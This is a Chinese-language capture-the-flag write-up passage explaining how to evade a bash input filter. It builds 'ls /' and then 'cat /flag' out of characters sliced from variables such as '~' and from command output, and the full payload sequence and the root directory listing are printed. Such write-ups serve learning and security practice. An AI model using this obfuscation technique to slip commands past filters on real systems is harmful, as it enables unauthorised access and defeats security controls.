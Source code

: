 我们可以将 `~` 赋值给一个变量，然后从这个变量中提取字符来构造我们的指令。工作目录的字符中正好包含 `ls /` 这条指令中所有需要的字符。但 `/` 字符在第一位，index 包含 0。因此让这个字符串变量自己加上自己，这样第二个 `/` 字符的 index 就为 8 了。构造 `ls /` 指令：
```bash
__=~
__=$__$__
${__:2:1}${__:7:1} ${__:8:1}
```

执行这个指令后可以看到，终端中成功地输出了 `/` 目录的内容：
```plaintext
bin
boot
dev
etc
flag
home
lib
lib32
lib64
libx32
media
mnt
opt
players
proc
root
run
sbin
srv
sys
tmp
usr
var
```

将 `ls /` 的结果写入变量中：
```bash
_3=`${__:2:1}${__:7:1} ${__:8:1}`
```

接下来我们只需要想办法构造 `cat /flag` 这条指令即可：
```bash
${_3:15:1}${__:3:1}${_3:7:1} ${__:8:1}${_3:17:1}${_3:18:1}${_3:19:1}${_3:20:1}
```

不过 `flag` 中的 `g` 在 `_3` 中的 index 正好为 20，包含了 0。所以我们用数学计算，计算出 20 并赋值给一个变量，然后再构造我们的指令：
```bash
_4=$[15+5]
${_3:15:1}${__:3:1}${_3:7:1} ${__:8:1}${_3:17:1}${_3:18:1}${_3:19:1}${_3:_4:1}
```

最后的操作序列为：
```bash
__=~
__=$__$__
${__:2:1}${__:7:1} ${__:8:1}
_3=`${__:2:1}${__:7:1} ${__:8:1}`
_4=$[15+5]
${_3:15:1}${__:3:1}${_3:7:1} ${__:8:1}${_3:17:1}${_3:18:1}${_3:19:1}${_3:_4:1}
```

